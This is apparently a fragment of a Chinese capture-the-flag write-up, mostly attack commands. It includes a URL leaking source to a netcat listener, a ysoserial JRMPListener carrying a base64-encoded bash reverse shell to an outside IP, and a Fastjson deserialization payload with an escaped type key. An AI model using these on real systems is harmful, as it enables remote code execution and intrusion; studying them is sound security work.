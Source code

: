 ```python
if __name__ == '__main__':
    test(CORSRequestHandler, HTTPServer)
```

然后发送

```
http://treasure.npointer.cn./index.html#http://39.105.176.37:8000/bot
```

nc接受到了源代码.

(分析过程以后补上)



http://www.jackson-t.ca/runtime-exec-payloads.html

vps上面执行

```
java -cp ysoserial-master-SNAPSHOT.jar ysoserial.exploit.JRMPListener 1088 CommonsCollections5 'bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8zOS4xMDUuMTc2LjM3Lzk5OTkgMD4mMQo=}|{base64,-d}|{bash,-i}'
```

通过submit发送

```
{"@\u0074ype":"org.apache.commons.proxy.provider.remoting.RmiProvider","host":"39.105.176.37",port:"1088","name":"Object"}
```

